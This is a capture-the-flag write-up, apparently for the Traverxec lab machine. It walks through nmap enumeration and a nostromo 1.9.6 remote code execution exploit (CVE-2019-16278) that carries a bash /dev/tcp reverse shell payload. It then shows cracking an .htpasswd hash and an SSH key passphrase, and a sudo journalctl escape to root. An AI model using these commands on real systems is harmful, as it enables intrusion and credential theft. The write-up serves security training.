

Target: 10.10.10.165

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.165

Nmap scan report for 10.10.10.165
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.165


### Findings:Looking for attack vectors

Search for nostromo exploits.


## Foothold:

searching for nostromo exploits
```
$ searchsploit nostromo    

----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)               | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                             | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution               | linux/remote/35466.sh
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

testing exploit rce
```
$ python cve2019_16278.py 10.10.10.165 80 id 


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


HTTP/1.1 200 OK
Date: Mon, 05 Jul 2021 02:09:12 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

exploiting rce to get reverse shell
```
$ python cve2019_16278.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/<ip>/9001 0>&1"'

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


```

```
www-data@traverxec:/usr/bin$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www

averxec:/dev/shm$ cat /var/nostromo/conf/.htpasswd

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

cracking hash
```
$ hashcat -m 500 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt

$ cat crack.txt

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

Loot:

`david:Nowonly4me`

looking for suspicious file/s 
```
www-data@traverxec:/var/nostromo/conf$ ls -la /home/david/public_www/

total 16                             
drwxr-xr-x 3 david david 4096 Oct 25  2019 .                                      
drwx--x--x 5 david david 4096 Oct 25  2019 ..                                                 
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html                                   
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area  

www-data@traverxec:/var/nostromo/conf$ ls -la /home/david/public_www/protected-file-area

total 16                                     
drwxr-xr-x 2 david david 4096 Oct 25  2019 .                                        
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..                                     
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

getting the backup file



unpacking the backup file
```
$ tar zxvf backup-ssh-identity-files.tgz

home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

cracking passphrase
```
$ python3 Documents/ssh2john.py home/david/.ssh/id_rsa > hash

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

hunter           (home/david/.ssh/id_rsa)
```

```
$ ssh david@10.10.10.165 -i home/david/.ssh/id_rsa    

david@traverxec:~$ id

uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

```
david@traverxec:~$ cat user.txt

<redacted>
```


## Priv Escalations:

looking for suspicious file/s
```
david@traverxec:~$ ls

bin  public_www  user.txt

david@traverxec:~$ cd bin

david@traverxec:~/bin$ ls -la  

total 16                                                                                     
drwx------ 2 david david 4096 Oct 25  2019 .                                   
drwx--x--x 5 david david 4096 Oct 25  2019 ..                                  
-r-------- 1 david david  802 Oct 25  2019 server-stats.head      
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh    

david@traverxec:~/bin$ cat server-stats.sh 

#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

exploiting sudo access
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service

-- Logs begin at Sun 2021-07-04 08:15:59 EDT, end at Sun 2021-07-04 23:28:27 EDT. --
Jul 04 22:37:25 traverxec su[16772]: FAILED SU (to david) www-data on none
Jul 04 22:37:32 traverxec sudo[16773]: pam_unix(sudo:auth): conversation failed
Jul 04 22:37:32 traverxec sudo[16773]: pam_unix(sudo:auth): auth could not identify p
Jul 04 22:37:32 traverxec sudo[16773]: www-data : command not allowed ; TTY=unknown ;
Jul 04 22:38:16 traverxec sudo[16776]: pam_unix(sudo:auth): authentication failure; l
!/bin/sh
```

```
# id

uid=0(root) gid=0(root) groups=0(root)
```

```
# cat /root/root.txt

<redacted>
```
